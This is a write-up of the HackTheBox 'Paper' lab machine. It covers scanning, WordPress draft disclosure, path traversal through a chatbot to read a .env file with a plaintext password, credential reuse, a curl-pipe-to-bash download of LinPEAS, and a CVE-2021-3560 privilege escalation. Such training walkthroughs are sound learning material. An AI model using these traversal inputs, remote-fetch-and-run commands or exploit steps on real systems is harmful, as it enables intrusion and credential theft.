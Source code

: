 ```yaml
---
title: HackTheBox - Paper
categories: htb wordpress
excerpt: | 
   Paper is an easy difficulty Linux machine.

feature_text: |
  ## Paper - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```
Initially we don't have any ssh credential to access port 22 service. To see more information about the certificate used in ssl/http conection, you can use `openssl`. Openssl is a cryptography toolkit implementing the Secure Sockets Layer (SSL v2/v3) and Transport Layer Security (TLS v1) network protocols and related cryptography standards required by them. 

So running `openssl s_client -connect 10.10.11.143:443` we can see some information about the certificates:
> CN = localhost.localdomain, emailAddress = root@localhost.localdomain \
Verify return code: 19 (self signed certificate in certificate chain)

Go on with the reconnaissance phase, it would be interesting to launch `whatweb` to the tarjet. This is what we have in the http headers: 
> X-Backend[office.paper]

Add to your /etc/hosts file and check how it looks like. 

There is a blog page with comments and there is someone who advises that drafts are not secure... Maybe it's a clue, don't you think?

What content manager does the page use? Wordpress v5.2.3. Search for some vulnerabilities of this version. 


### Exploit vulnerabilities
Looking for an exploit of wordpress v5.2.3. There is one way to see unauthenticated password private post: that adding `?static=1` to a wordpress URL should leak its secret content.
`http://office.paper/?static=1` 

And there is a secret registration URL of new employee chat system: `http://chat.office.paper/register/8qozr226AhkCHZdyY`.
Time to fight with the Recyclops bot. He accepts several questions. Seaching a little bit you can find a special file with credential as plain text `recyclops file ../hubot/.env`. Files like .env usually have some enviornment variables like username or password in plaintext. 

> export ROCKETCHAT\_USER=recyclops \
export ROCKETCHAT\_PASSWORD=Queenofblad3s!23

Use this as dwight credential because it is possible that they are reusing credentials.

### Privilege Scalation
We will use LinPEAS. This is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation).


Download it in your computer and then start a shared service with python `pyhton3 -m http.server 8080`. In the victim machine download this file and execute with bash 'on-the-fly': `curl http://<tuip>:8080/linpeas.sh | bash`
```
╔══════════╣ Sudo version                                                       
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version 
Sudo version 1.8.29                                                             
                                                                                
╔══════════╣ CVEs Check                                                         
Vulnerable to CVE-2021-3560                                                     
```
Get this CVE and download the poc.sh. Run it in the target machine and you will have a new user:pass --> secnigma:secnigmaftw. Doing `sudo bash` you will be root!

Congratulations.
